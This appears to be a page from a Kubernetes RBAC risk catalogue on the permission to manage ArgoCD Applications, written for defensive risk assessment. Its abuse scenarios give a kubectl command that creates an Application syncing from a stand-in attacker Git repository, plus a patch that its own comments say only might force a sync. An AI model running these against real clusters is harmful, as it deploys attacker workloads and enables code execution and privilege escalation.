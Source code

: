 ```yaml
---
id: 1063
title: "Manage ArgoCD Applications (argoproj.io)"
description: "Grants permission to manage ArgoCD Application resources. This allows deploying, modifying, or deleting applications managed by ArgoCD, potentially leading to the deployment of malicious workloads, unauthorized code execution, tampering with production systems, and privilege escalation if ArgoCD has high privileges."
category: Tampering
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                                           |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1063                                                                                                                            |
| Name          | Manage ArgoCD Applications (argoproj.io)                                                                                        |
| Risk Category | Tampering                                                                                                                       |
| Risk Level    | {{< risk Critical >}}                                                                                                           |
| Role Type     | Role                                                                                                                            |
| API Groups    | argoproj.io                                                                                                                     |
| Resources     | applications                                                                                                                    |
| Verbs         | create, update, patch, delete, sync                                                                                             |
| Tags          | {{< tag "CodeExecution" >}} {{< tag "PotentialPrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadDeployment" >}} |

## Description

Grants permission to manage ArgoCD Application resources. This allows deploying, modifying, or deleting applications managed by ArgoCD, potentially leading to the deployment of malicious workloads, unauthorized code execution, tampering with production systems, and privilege escalation if ArgoCD has high privileges.

## Abuse Scenarios

1. Create a new ArgoCD Application pointing to a malicious Git repository.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: argoproj.io/v1alpha1
kind: Application
metadata:
  name: malicious-app
spec:
  destination:
    namespace: <target-namespace>
    server: https://kubernetes.default.svc
  project: default
  source:
    repoURL: https://github.com/attacker/malicious-manifests.git
    targetRevision: HEAD
    path: .
  syncPolicy:
    automated:
      prune: true
      selfHeal: true
EOF
# Example: kubectl create -n argocd -f - <<EOF ... EOF

```

2. Force synchronization of an ArgoCD Application to deploy changes immediately.

```bash
kubectl patch application <application-name> -n <namespace> --type='merge' -p='{"status": {"operationState": {"phase": "Running", "syncResult": {"resources": []}}}}'
# Note: Direct 'sync' verb via kubectl is not standard. This patch might trigger a sync.
# A more direct way is using the ArgoCD CLI: `argocd app sync <application-name> -n <namespace>`
# Example: kubectl patch application my-app -n argocd --type='merge' -p='{"status": {"operationState": {"phase": "Running", "syncResult": {"resources": []}}}}'

```

